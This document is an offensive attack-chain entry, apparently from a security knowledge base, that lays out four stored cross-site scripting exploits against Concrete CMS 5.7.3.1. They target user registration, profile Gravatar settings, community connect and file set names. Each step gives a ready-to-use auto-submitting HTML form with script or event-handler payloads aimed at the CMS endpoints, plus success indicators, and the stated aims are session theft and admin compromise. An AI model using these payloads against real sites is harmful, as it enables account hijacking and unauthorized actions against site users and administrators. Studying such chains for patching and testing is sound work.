

---
tags:
  - xss
  - stored-xss
  - concrete-cms
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - PHP
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Stored-XSS-via-User-Registration-in-Concrete-CMS]]'
  - '[[procedures/Stored-XSS-via-Profile-Update-in-Concrete-CMS]]'
  - '[[procedures/Stored-XSS-via-Community-Connect-in-Concrete-CMS]]'
  - '[[procedures/Stored-XSS-via-File-Sets-Management-in-Concrete-CMS]]'
step_count: 4
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:15:41.410Z'
description: >-
  A multi-vector stored XSS attack chain exploiting insufficient input
  validation in Concrete CMS 5.7.3.1, allowing persistent JavaScript injection
  across user registration, profile updates, community connect, and file sets to
  steal sessions and perform unauthorized actions.
skill_level: intermediate
impact_level: high
id: 8adf9536-fc2a-4aa3-899d-0ed50cbb5c4e
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Multiple Stored XSS Attacks in Concrete CMS via Registration, Profile, Community Connect, and File Management

## Overview

This attack chain demonstrates multiple stored Cross-Site Scripting (XSS) vulnerabilities in Concrete CMS (formerly Concrete5) version 5.7.3.1. Attackers can inject malicious JavaScript payloads into various form parameters during user registration, profile updates, community connect setup, and file management. These payloads persist in the database and execute when authenticated or anonymous users view affected pages such as profiles, member lists, dashboards, and file search interfaces. The chain enables session theft, unauthorized actions on behalf of users, content defacement, and potential escalation when combined with CSRF. Vulnerabilities stem from unencoded user inputs in POST parameters, discovered via manual form testing and payload crafting.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for manual testing
- Proxy tool like Burp Suite for intercepting and modifying requests (optional)

### Target Environment

- Concrete CMS 5.7.3.1 running on PHP
- Web server with accessible endpoints like /index.php/register/do_register
- Enabled user registration (anonymous if possible for broader impact)

### Initial Access Requirements

- Network access to the target CMS instance
- No credentials needed for anonymous registration; admin access for profile/community/file features
- Prior reconnaissance to confirm version via /index.php/dashboard/system/environment/info

## Detailed Attack Procedures

### Step 1: Exploit Stored XSS in User Registration
procedure: [[procedures/Stored-XSS-via-User-Registration-in-Concrete-CMS]]

**Objective**: Inject persistent JavaScript into the user email field during registration, executing on profile or member list views to steal sessions from viewers.

**Instructions**: Create and submit a registration form with a malicious payload in the uEmail parameter to break out of the HTML context and inject a script tag. Use the following HTML to automate submission:

Execute [[commands/register-user-with-xss-in-uemail]] in a browser:

```html
<html>
<body>
<form method="POST" action="http://[host]/concrete5/index.php/register/do_register">
<input type="hidden" name="uName" value="StoredXSS">
<input type="hidden" name="uEmail" value='stored@xss.com"><script>alert(/XSS/)</script>'>
<input type="hidden" name="uPassword" value="password">
<input type="hidden" name="uPasswordConfirm" value="password">
<input type="hidden" name="uDefaultLanguage" value="it-IT">
</form>
<script>document.forms[0].submit()</script>
</body>
</html>
```

Then, access the new user's profile or member list to trigger execution.

**Expected Output**: User account created; alert pops on profile view confirming payload execution.

**Success Indicators**:
- Registration succeeds without errors
- Script executes (e.g., alert dialog) on subsequent page loads

### Step 2: Exploit Stored XSS in Profile Updates
procedure: [[procedures/Stored-XSS-via-Profile-Update-in-Concrete-CMS]]

**Objective**: Inject event-based payloads into Gravatar settings during profile updates, triggering onfocus and onmouseover to capture user interactions and data.

**Instructions**: Authenticate as a user, then submit an update form with payloads in gravatar_max_level and gravatar_image_set. Use the following HTML:

Execute [[commands/update-profile-with-xss-in-gravatar-params]] in a browser:

```html
<html>
<body>
<form method="POST" action="http://[host]/concrete5/index.php/dashboard/system/registration/profiles/update_profiles">
<input type="hidden" name="public_profiles" value="1">
<input type="hidden" name="gravatar_fallback" value='1'>
<input type="hidden" name="gravatar_max_level" value='" autofocus onfocus="alert(1)'>
<input type="hidden" name="gravatar_image_set" value='" onmouseover="alert(2)'>
</form>
<script>document.forms[0].submit()</script>
</body>
</html>
```

Interact with profile options to trigger events.

**Expected Output**: Profile settings updated; alerts trigger on focus and hover.

**Success Indicators**:
- Form submission succeeds
- Event handlers execute JavaScript on interaction

### Step 3: Exploit Stored XSS in Community Connect
procedure: [[procedures/Stored-XSS-via-Community-Connect-in-Concrete-CMS]]

**Objective**: Inject script into the URL token during community connect completion, executing on dashboard extend views to compromise admin sessions.

**Instructions**: During connect setup, submit a form with payload in csURLToken to break out of an anchor tag. Use the following HTML:

Execute [[commands/complete-community-connect-with-xss-in-csurltoken]] in a browser:

```html
<html>
<body>
<form method="POST" action="http://[host]/concrete5/index.php/dashboard/extend/connect/connect_complete">
<input type="hidden" name="csToken" value="my_token">
<input type="hidden" name="csURLToken" value="</a><script>alert(/XSS/)</script>">
</form>
<script>document.forms[0].submit()</script>
</body>
</html>
```

Access /index.php/dashboard/extend/ to verify.

**Expected Output**: Connect completes; script executes on dashboard view.

**Success Indicators**:
- No validation errors on submission
- Alert triggers on dashboard access

### Step 4: Exploit Stored XSS in File Sets Management
procedure: [[procedures/Stored-XSS-via-File-Sets-Management-in-Concrete-CMS]]

**Objective**: Inject direct script tag into new file set names, executing during file search and set assignment to disrupt file workflows and steal data.

**Instructions**: In file management, submit a dialog form with payload in fsNew[]. Use the following HTML (adapt fID as needed):

Execute [[commands/submit-file-sets-with-xss-in-fsnew]] in a browser:

```html
<html>
<body>
<form method="POST" action="http://localhost/concrete5.7.4/index.php/ccm/system/dialogs/file/sets/submit?fID=1">
<input type="hidden" name="fsNew[]" value="<script>alert(/XSS/)</script>">
</form>
<script>document.forms[0].submit()</script>
</body>
</html>
```

Navigate to file search, select a file, and click 'Set'.

**Expected Output**: File set created; alert on search interface interaction.

**Success Indicators**:
- Dialog submits successfully
- Script executes on file set action

## Attack Chain Summary

### Key Achievements

1. Persistent XSS injection across four CMS features
2. Script execution on multiple page views, enabling session theft
3. Potential for admin compromise via dashboard triggers
4. Disruption of user workflows in file management

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
